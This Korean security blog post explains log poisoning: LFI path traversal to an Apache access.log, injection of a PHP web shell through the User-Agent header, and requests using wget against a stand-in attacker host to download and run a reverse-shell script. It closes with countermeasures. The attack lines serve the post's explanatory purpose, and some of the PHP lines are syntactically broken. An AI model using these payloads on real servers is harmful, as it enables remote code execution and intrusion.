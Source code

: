 ```yaml
---
layout: single
title: Log Poisoning
categories: Web-vuln
tag: [log injection, RCE, LFI, log poisoning]
toc: true
author_profile: false
---
```

# 해당 취약점은 무엇인가?
>log Poisoning은 웹 어플리케이션에서 발생하는 취약점으로, LFI 취약점이 존재하며, Log 파일을 열람이 가능할 때 발생하며, log injection과 LFI 취약점이 선행되어야 한다. 이를 통해 RCE 까지로 이어질 수 있는 취약점이다.

***

# 공격 앤드포인트 탐색
해당 취약점은 서버에 존재하는 로그파일에 사용자의 정보 및 입력값이 쓰여질 때 발생할 수 있으므로, LFI 취약점이 존재해야한다.
```
http://victim.com/lifendpoint?view=
```
위와 같이 특정 파일을 Include하는 기능이 존재 한다고 가정해보자.
View 파라미터에 LFI 취약점이 존재하고, apache2 서비스가 동작중일 경우 일반적으로 /var/log/apache2/access.log 로그파일에 접근할 수 있다.
access.log 파일의 경우 웹 서버에서 접근 로그파일로, 사용자의 User-Agent 헤더 정보가 기록된다.
이 떄 User-Agent 값을 악의적인 사용자가 임의로 변경하게되면 그 정보 혹은 결과값이 access.log 파일에 기록된다(log injection).
## LFI 취약점을 통한 Log 파일 열람 
해당 시스템에 Apachee2 서비스가 동작 중이라면 access.log가 존재한다.
```
http://victim.com/lifendpoint?view=../../../../var/log/apache2/access.log
```
위와 같이 LFI 취약점이 존재할 경우 경로이동을 통해 access.log 파일에 접근할 수 있다.
![그림1-1](/assets/image/web-vuln/log_poisoning/image.png)
해당 access.log 파일에는 사용자의 User-Agent 값이 담기게 된다.
이 떄 악의 적인 사용자가 User-Agent 에 악성 코드를 삽입할 수 있다.

만약 해당 타겟시스템의 서버측 언어가 PHP 로 동작할 경우
```<?php system($_GET['cmd']);?> ```와 같이 php의 시스템 명령이 가능한 코드를 삽입하게 되면, 서버에서 User-Agent 헤더를 해석하는 과정에서 php 코드로 인식하여 이를 실행하게 된다.
즉 ***<span style="color:red"> RCE 취약점 까지 이어질 수 있는 치명적인 취약점이라고 볼 수 있다. </span>*** 

즉, 공격자 PC에서 리버스 커넥션 기능을 하는 악성 코드를 생서 후 웹서버를 구동시켜놓고, 해당 User-Agent 헤더에 공격자 PC에서 악성코드를 가져와 실행 시키는 명령어를 실행실 수 있게 된다.

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=wget http://attacker/reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=php reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```
이를 통해 악성스크립트가 실행되며, 공격자 서버로의 Reverse Connection이 이루어지게된다.

# 대응방안
1. 로그 파일에 기록되는 이벤트 필터링을 통해, 정상적은 형식과 속성인지 검증 과정이 존재해야 한다.
2. 로그 파일을 암호화 하여, 외부에서의 데이터 변경 및 조작을 방지한다.
3. 로그 파일에 대한 접근 제어 및 권한부여를 통해 외부에서 데이터 변경 및 조작을 방지한다.
4. 실시간 모니터링을 통한 이상 징후를 탐지한다.
5. 정기적으로 로그파일에 대해 백업 및 무결성 검사를 실시한다.
6. 사용자 입력값에 대해 비정상적인 입력값이 들어오는지에 대한 입력값 검증이 필요하다.
